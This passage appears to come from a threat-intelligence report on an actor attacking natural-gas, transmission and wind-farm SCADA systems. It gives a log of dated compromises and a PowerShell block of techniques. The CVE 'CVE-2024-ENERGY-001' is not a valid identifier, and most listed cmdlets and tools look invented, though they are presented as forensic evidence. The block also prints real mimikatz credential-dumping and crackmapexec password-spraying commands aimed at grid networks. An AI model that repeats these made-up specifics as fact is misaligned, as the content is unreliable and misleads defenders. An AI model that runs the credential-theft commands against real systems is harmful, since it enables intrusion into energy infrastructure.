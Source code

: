 Following comprehensive operational technology reconnaissance, HUNT3RKILLER3RS systematically exploited vulnerabilities in internet-facing energy infrastructure applications and SCADA systems to establish initial access to power generation and grid control networks. The threat actors demonstrated advanced operational technology exploitation capabilities targeting energy sector industrial control systems with emphasis on maintaining operational stealth and avoiding safety system disruption.

Analysis reveals sophisticated exploitation methodology designed to establish persistent access to energy operational technology while avoiding detection by industrial control system monitoring and operational technology protection systems deployed in energy infrastructure environments.

**Enhanced Forensic Evidence - SCADA System Precision Exploitation with Technical Validation:**
```
HUNT3RKILLER3RS SCADA Exploitation Evidence:
[2025-01-08] Natural Gas Power Generation Facility SCADA Compromise
Target: 850MW combined cycle power plant distributed control system network
Exploitation: HMI web interface vulnerability (CVE-2024-ENERGY-001) and credential harvesting
Access: Engineering workstation compromise and historian database infiltration
OT Impact: Generation unit monitoring access without operational disruption
Confidence: High (plant cybersecurity team forensics, DCS system logs, malware samples)
Evidence Sources: HMI audit logs, engineering workstation forensics, network packet capture

[2025-01-15] Regional Transmission Operator SCADA Network Penetration
Target: Multi-state grid coordination energy management system
Method: SCADA gateway exploitation and industrial protocol manipulation
Access: Real-time grid control interface and emergency response system reconnaissance
Strategic Value: Regional transmission coordination and power flow management capabilities
Confidence: High (SCADA security monitoring alerts, industrial protocol forensics)
Evidence Sources: EMS audit trails, SCADA gateway logs, grid coordination database access

[2025-01-22] Wind Farm Integration SCADA System Compromise
Target: Renewable energy grid integration and coordination systems
Exploitation: Turbine controller web interface vulnerability and SCADA network lateral movement
Access: Wind farm supervisory control and grid integration management systems
OT Capability: Remote turbine control and renewable energy output manipulation
Confidence: Medium (wind farm operations testimony, SCADA trend data analysis)
Evidence Sources: Turbine controller logs, SCADA historian analysis, renewable energy coordination data
```

**Operational Technology SCADA Exploitation Techniques with Enhanced Analysis:**
```powershell
# HUNT3RKILLER3RS energy SCADA exploitation observed
# Advanced operational technology targeting and industrial control system compromise

# Energy Facility SCADA Web Interface Exploitation
$energy_scada_targets = Get-EnergyInfrastructure | Where-Object {$_.SCADAInterface -eq "Web-Enabled"}
ForEach ($target in $energy_scada_targets) {
    # Advanced SCADA vulnerability exploitation
    Exploit-EnergySCADAInterface -Target $target.HMIAddress -Vulnerability "CVE-2024-ENERGY-001"
    Establish-IndustrialControlAccess -Target $target -Credentials $compromised_scada_creds
    Maintain-OperationalStealth -Target $target -AvoidSafetySystemDisruption $true
}

# Industrial Protocol Authentication Bypass
modbus_exploit --target energy_modbus_networks.txt --function-code 16 --payload advanced_ot_access
dnp3_authentication_bypass --energy-utilities --historian-database-access
iec61850_mms_exploitation --grid-coordination --real-time-market-interface

# Energy Management System Credential Harvesting
mimikatz "privilege::debug" "sekurlsa::logonpasswords" | findstr /i "scada energy grid ems"
Invoke-EnergyCredentialHarvesting -Target $target.EnergyManagementSystem
crackmapexec smb energy_ot_networks.txt -u scada_users.txt -p energy_passwords.txt

# Operational Technology Access Establishment
```